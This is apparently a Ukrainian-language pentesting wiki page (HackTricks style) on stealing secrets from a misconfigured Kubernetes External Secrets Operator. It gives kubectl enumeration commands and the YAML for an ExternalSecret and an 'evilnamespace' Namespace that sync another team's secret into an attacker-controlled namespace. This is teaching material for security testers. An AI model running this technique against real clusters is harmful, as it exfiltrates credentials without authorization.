 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**Автором цієї сторінки є** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ця сторінка надає кілька порад про те, як ви можете вкрасти секрети з неправильно налаштованого ESO або програми, яка використовує ESO для синхронізації своїх секретів.

## Відмова від відповідальності

Техніка, показана нижче, може працювати лише за певних обставин. Наприклад, це залежить від вимог, необхідних для дозволу синхронізації секрету в просторі імен, яким ви володієте / який ви скомпрометували. Вам потрібно розібратися в цьому самостійно.

## Передумови

1. Наявність доступу до кластера kubernetes / openshift з адміністративними привілеями в просторі імен
2. Доступ на читання принаймні до ExternalSecret на рівні кластера
3. Визначити, чи є якісь необхідні мітки / анотації або членство в групі, які дозволяють ESO синхронізувати ваш секрет. Якщо вам пощастить, ви зможете вільно вкрасти будь-який визначений секрет.

### Збір інформації про існуючий ClusterSecretStore

Припустимо, що у вас є користувачі, які мають достатні права для читання цього ресурсу; почніть з переліку існуючих _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Давайте припустимо, що ви знайшли ClusterSecretStore з назвою _**mystore**_. Продовжте, перераховуючи його асоційовані externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Цей ресурс має область видимості простору імен, тому, якщо ви ще не знаєте, в якому просторі імен шукати, додайте опцію -A, щоб переглянути всі простори імен._

Вам слід отримати список визначених externalsecret. Припустимо, ви знайшли об'єкт externalsecret під назвою _**mysecret**_, визначений і використаний у просторі імен _**mynamespace**_. Зберіть трохи більше інформації про те, який тип секрету він містить.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Збирання частин

З цього місця ви можете отримати назву одного або кількох секретів (як визначено в ресурсі Secret). Ви отримаєте вихідні дані, подібні до:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Отже, ми отримали:

- Ім'я ClusterSecretStore
- Ім'я ExternalSecret
- Ім'я секрету

Тепер, коли у нас є все необхідне, ви можете створити ExternalSecret (і, в кінцевому підсумку, виправити/створити новий Namespace, щоб відповідати вимогам, необхідним для синхронізації вашого нового секрету):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Після кількох хвилин, якщо умови синхронізації були виконані, ви повинні мати можливість переглянути витік секрету у вашому просторі імен.
```sh
kubectl get secret leaked_secret -o yaml
```
## Посилання

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
